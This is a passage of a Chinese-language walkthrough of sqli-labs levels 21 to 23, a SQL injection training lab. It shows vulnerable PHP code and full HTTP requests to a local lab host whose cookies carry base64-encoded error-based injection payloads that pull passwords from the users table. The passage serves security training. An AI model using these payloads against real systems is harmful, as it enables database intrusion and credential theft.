 ```php
        }
```

![image-20241206154956021](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241206154956021.png)

将上一题的payload进行base64编码即可

```http
GET /Less-21/index.php HTTP/1.1
Host: 192.168.27.14
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Cookie: uname=RHVtYictIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChzZWxlY3QgcGFzc3dvcmQgZnJvbSB1c2VycyBsaW1pdCAwLDEpLDB4N2UpLDEpLSc=
```

## less-22 cookie base64

```php
$cookee = base64_decode($cookee);
$cookee1 = '"'. $cookee. '"';
echo "<br></font>";
$sql="SELECT * FROM users WHERE username=$cookee1 LIMIT 0,1";
$result=mysql_query($sql);
if (!$result)
{
	die('Issue with your mysql: ' . mysql_error());
}
$row = mysql_fetch_array($result);
```

双引号闭合，在base64编码

payload

```
RHVtYiItIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChzZWxlY3QgcGFzc3dvcmQgZnJvbSB1c2VycyBsaW1pdCAwLDEpLDB4N2UpLDEpLSI=
```

```http
GET /Less-22/index.php HTTP/1.1
Host: 192.168.27.14
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Cookie: uname=RHVtYiItIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChzZWxlY3QgcGFzc3dvcmQgZnJvbSB1c2VycyBsaW1pdCAwLDEpLDB4N2UpLDEpLSI=
```

## less-23  开始过滤 报错注入

```php
$id=$_GET['id'];

//filter the comments out so as to comments should not work
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);

// connectivity 
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

        if($row)
```